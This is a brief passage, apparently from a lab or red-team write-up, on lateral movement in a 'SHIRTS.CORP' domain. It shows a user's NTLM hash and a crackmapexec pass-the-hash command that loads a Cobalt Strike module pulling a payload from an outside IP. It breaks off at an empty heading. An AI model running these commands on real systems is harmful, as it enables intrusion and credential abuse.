 ![Admin Pivot](images/ADMINPivot.jpg)


## SHIRTS.CORP Domain lateral movement


Having finnaly gotten a foothold on the shirts domain we can start to look for new servers we can attack using the following hash


```
SHIRTS\zmullen 297b35e07ae0144ad409abaf29092d7a
```


### CME
This is done with the following command


```bash
crackmapexec smb windows_servers -d SHIRTS -u zmullen -H297b35e07ae0144ad409abaf29092d7a-M cobaltloadps -o URL=http://10.9.254.6/payload6
```


### PWN

